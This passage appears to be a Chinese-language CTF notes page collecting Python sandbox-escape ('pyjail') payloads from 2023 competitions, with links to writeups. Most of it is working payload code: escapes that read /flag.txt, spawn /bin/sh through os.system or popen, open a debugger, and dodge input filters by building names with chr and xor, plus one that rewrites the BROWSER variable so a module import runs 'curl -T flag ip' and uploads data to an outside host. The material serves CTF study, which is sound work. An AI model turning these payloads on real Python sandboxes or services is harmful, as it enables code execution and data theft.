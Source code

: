     g=(print(g.gi_frame.f_back.f_back.f_builtins['open']('/flag.txt').read())for x in(0,))
    for x in g:0
    """.strip()
    .replace("\n", "\r")
    ```
    - `[print(y('/flag.txt').read()) for x,y in enumerate(string.Formatter().get_field('a.__self__.open', [], {'a': repr})) if x==0]`
    - `print(string.Formatter().get_field("a.__init__.__globals__[sys]", [], kwargs={"a":string.Formatter().get_field("a.__class__.__base__.__subclasses__", [], kwargs={"a":[]})[0]().pop(107)})[0].modules.pop('os').popen('cmd').read())`
    - https://github.com/nikosChalk/ctf-writeups/tree/master/uiuctf23/pyjail/rattler-read/writeup : `class Baz(string.Formatter): pass; get_field = lambda self, field_name, args, kwargs: (string.Formatter.get_field(self, field_name, args, kwargs)[0]("/bin/sh"), ""); \rBaz().format("{0.Random.__init__.__globals__[_os].system}", random)`
    - https://ur4ndom.dev/posts/2023-07-02-uiuctf-rattler-read/ ：`string.Formatter().get_field("a.__class__.__base__.__subclasses__", [], {"a": ""})[0]()[84].load_module("os").system("sh")`,`for f in (g := (g.gi_frame.f_back.f_back for _ in [1])): print(f.f_builtins)`(逃逸exec的上下文然后请求builtin。这句还没有实现执行命令或者读文件，只是导出builtins。导出后参考上面的用法使用)
- [Censorship](https://github.com/les-amateurs/AmateursCTF-Public/tree/main/2023/misc/censorship)：环境包含flag变量需要泄露+绕过滤
    - 覆盖程序函数从而取消过滤。如题目用ascii(input)来保证输入只能是ascii。我们可以让`ascii = lambda x: x`，然后就能用非ascii字符绕过
    - https://github.com/D13David/ctf-writeups/tree/main/amateursctf23/misc/censorship ：题目中存在包含flag的变量`_`，直接`locals()[_]`然后keyerror
      - 类似的还有`{}[_]`,`vars()[_],globals()[_]`.要求题目会返回exception的内容
    - `vars(vars()[(*vars(),)[([]==[])+([]==[])+([]==[])+([]==[])+([]==[])+([]==[])]])[(*vars(vars()[(*vars(),)[([]==[])+([]==[])+([]==[])+([]==[])+([]==[])+([]==[])]]),)[([]==[])+([]==[])+([]==[])+([]==[])+([]==[])+([]==[])+([]==[])+([]==[])+([]==[])+([]==[])+([]==[])+([]==[])]]()`:开启pdb
    - `vars(vars()['__bu' + chr(105) + chr(108) + chr(116) + chr(105) + 'ns__'])['pr' + chr(ord('A') ^ ord('(')) + 'n' + chr(ord('H') ^ ord('<')) + ''](vars()[chr(102) + chr(108) + chr(97) + chr(103)])`
    - https://github.com/rwandi-ctf/ctf-writeups/blob/main/amateursctf2023/censorships.md#censorship ：`vars(globals()["__buil" + chr(116) + "ins__"])["prin" + chr(116)](_)`。vars+globals构造字典取print
    - https://xhacka.github.io/posts/writeup/2023/07/19/Censorship/ ：`vars(globals()[dir()[2]])[globals()[dir()[2]].__dir__()[42]](globals())`
- [Censorship Lite](https://github.com/les-amateurs/AmateursCTF-Public/tree/main/2023/misc/censorship-lite)：类似Censorship但更多过滤
    - intend解法可以getshell，但是有点复杂
    - `any="".__mod__;print(flag)`:覆盖any函数后过滤失效，直接print. https://hackmd.io/@yqroo/Censorship-series
    - `vars(vars()['__bu' + chr(ord('A')^ord('(')) + chr(ord('E')^ord(')')) + chr(ord('H') ^ ord('<')) + chr(ord('A')^ord('(')) + 'ns__'])['pr' + chr(ord('A') ^ ord('(')) + 'n' + chr(ord('H') ^ ord('<')) + ''](vars()['f' + chr(ord('E')^ord(')')) + 'ag'])`
    - https://xhacka.github.io/posts/writeup/2023/07/19/Censorship/#censorship-lite : `vars(vars()[[*vars()][ord('A')-ord('B')]])[[*vars(vars()[[*vars()][ord('A')-ord('B')]])][ord('M')-ord('A')]]()`,开启pdb
    - https://github.com/aparker314159/ctf-writeups/blob/main/AmateursCTF2023/censorships.md ：利用[tadpole operator](https://devblogs.microsoft.com/oldnewthing/20150525-00/?p=45044)(c++里面一个冷门语法，python里也有，作用是返回加上/减去1后的值，但不像`++,--`那样改变原变量的值。`-~y`等同于y+1,`~-y`等同于y-1)
- [Censorship Lite++](https://github.com/les-amateurs/AmateursCTF-Public/tree/main/2023/misc/censorship-lite%2B%2B):泄露flag变量，但是过滤部分字符和符号以及全部数字
    - https://github.com/rwandi-ctf/ctf-writeups/blob/main/amateursctf2023/censorships.md#censorship-lite-1 :过滤掉部分字符后可以利用python对字符串的[转换](https://stackoverflow.com/questions/961632/convert-integer-to-string-in-python)从函数等地方取。
- [Get and set](https://github.com/maple3142/My-CTF-Challenges/tree/master/ImaginaryCTF%202023/Get%20and%20set):能无限次对某个空object使用`pydash.set_`和`pydash.get`，参数无限制，实现rce。总体思路：Get `__builtins__` from `__reduce_ex__(3)[0].__builtins__`, and you can call arbitrary functions using magic methods like `__getattr__` or `__getitem__`
- [You shall not call](https://github.com/ImaginaryCTF/ImaginaryCTF-2023-Challenges/tree/main/Misc/you_shall_not_call),[wp](https://gist.github.com/lebr0nli/eec8f5addd77064f1fa0e8b22b6a54f5)；[You shall not call Revenge](https://github.com/ImaginaryCTF/ImaginaryCTF-2023-Challenges/tree/main/Misc/you_shall_not_call-revenge),[wp](https://gist.github.com/lebr0nli/53216005991d012470c0bde0f38952b1):两个都是有关pickle的的pyjail，用有限的pickle code构造pickle object。前者只需读文件，revenge需要得到rce
- [My Third Calculator](https://ireland.re/posts/TheFewChosen_2023/#my-third-calculator):`__import__('antigravity',setattr(__import__('os'),'environ',{'BROWSER':'/bin/sh -c "curl -T flag ip;exit" #%s'}))`.antigravity是python里一个彩蛋模块，导入它会打开[xkcd](https://xkcd.com/353/)。通过将环境变量browser改为shell命令，就能在导入时执行shell命令而不是打开网页